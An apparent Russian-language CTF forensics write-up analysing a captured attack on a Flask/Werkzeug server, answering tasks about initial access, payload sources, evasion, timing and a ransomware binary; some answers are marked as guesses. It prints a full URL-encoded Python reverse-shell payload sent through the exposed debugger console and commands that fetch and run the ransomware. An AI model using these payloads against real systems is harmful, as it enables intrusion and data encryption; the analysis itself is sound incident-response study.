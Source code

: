 
# Условие 1
14. Враг врага 2 - 1

Разведка донесла, что APT «Таймырский муксун» недавно провернул изящную операцию против «Таежного кролика». Поговаривают, что в инфраструктуру «Кролика» было внедрено вредоносное ПО, которое успело наделать шума. Теперь наша задача — докопаться до истины. Вперёд, охотники за «кроличьими» секретами!

Необходимые файлы должны быть на вашем оборудовании. К заданию относится образ linux системы.

- 1. Как был получен первичный доступ к системе? (2 балла)

# Ответ 1

### Открытие консоли (пакет 565-566) спустя 11 секунд после открытия главной страницы сайта:

http://10.10.10.3:5000/console?__debugger__=yes&cmd=resource&f=debugger.js

### Python реверс шелл (пакет 761) на порт 9001:

http://10.10.10.3:5000/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF

```
root@7a5a67189bc9:/app#
```

# Условие 2

15. Враг врага 2 - 2

- 2. С каких IP-адресов поступала полезная нагрузка? (2 балла)

# Ответ 2

Атака с `10.10.10.12` через `10.10.10.3`

С сервера `81.177.221.242` было скачано приложение-шифровальщик `app`

# Условие 3

16. Враг врага 2 - 3

- 3. Какие механизмы защиты от детектирования применены в вредоносном приложении? (4/8 баллов)

# Ответ 3

! Предполагаю

```
CUSTOM_write found, patched.\r\nok\r\n
```

Runtime-patching чтобы использовать CUSTOM_write() вместо write() чтобы спрятаться от AppArmor'а на сервере

# Условие 4

17. Враг врага 2 - 4

- 4. В какое время было начато исполнение вредоносной нагрузки? (13 баллов)

# Ответ 4

Примерно с пакета 945 (Jan 22 22:3?:??) (с удаления всего в домашней директории):
```
rm .*
```
```
cd ..
wget http://81.177.221.242:8125/app
chmod +x ./app
./app
```
И потом (1535):
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
"\
```

# Условие 5

18. Враг врага 2 - 5

- 5. Какая строчка была использована в качестве SECRET поля для уязвимого сервиса? (20 баллов)

# Ответ 5

```
strings dump.pcapng | grep SEC
  SECRET = "yqqPfQiFZmXsmnZQYMPF";
  SECRET = "yqqPfQiFZmXsmnZQYMPF";
  SECRET = "yqqPfQiFZmXsmnZQYMPF";
```

А так же эта же строка в параметре s= в 172.18.0.3:5000/console

# Условие 6

19. Враг врага 2 - 6

- 6. Опишите принцип работы и тип вредоносной нагрузки? (20 баллов)

# Ответ 6

Вручную удалены все файлы из домашнего каталога

Все что осталось было зашифровано (то есть веб приложение) с помощью `app`

Тип: ??
